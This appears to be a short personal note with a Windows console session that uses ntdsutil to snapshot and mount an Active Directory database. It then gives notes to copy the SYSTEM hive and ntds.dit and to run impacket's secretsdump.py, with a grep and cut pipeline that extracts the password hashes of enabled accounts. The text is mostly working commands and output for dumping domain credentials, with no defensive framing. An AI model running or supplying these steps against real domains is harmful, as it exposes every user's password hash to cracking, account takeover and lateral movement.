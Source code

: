 C:\Windows\system32>C:


C:\Windows\system32>cd ..
C:\Windows>cd ..

C:\>cd Users	

C:\Users>cd <admin_user>

Change into your admin user directory.

```

```

C:\Users\nta007>**ntdsutil**
ntdsutil: **activate instance ntds**
Active instance set to "ntds".
ntdsutil: **snapshot**
snapshot: **create**
Creating snapshot...
Snapshot set {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3} generated successfully.
snapshot: **mount {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} mounted as C:\$SNAP_201801091253_VOLUMED$\
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} mounted as C:\$SNAP_201801091253_VOLUMEC$\
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} mounted as C:\$SNAP_201801091253_VOLUMEE$\
snapshot: **delete {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} unmounted.
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} deleted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} unmounted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} deleted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} unmounted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} deleted.
snapshot: **quit**
ntdsutil: **quit**

C:\Users\nta007>




GET THE SYSTEM FILE ASWELL (WINDOWS SYSTEM32 CONFIG)
NTDS - in the windows folder

***New commands*** (python3.9)
/usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile <filename> local
cat hashes | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1 < for getting just the hashes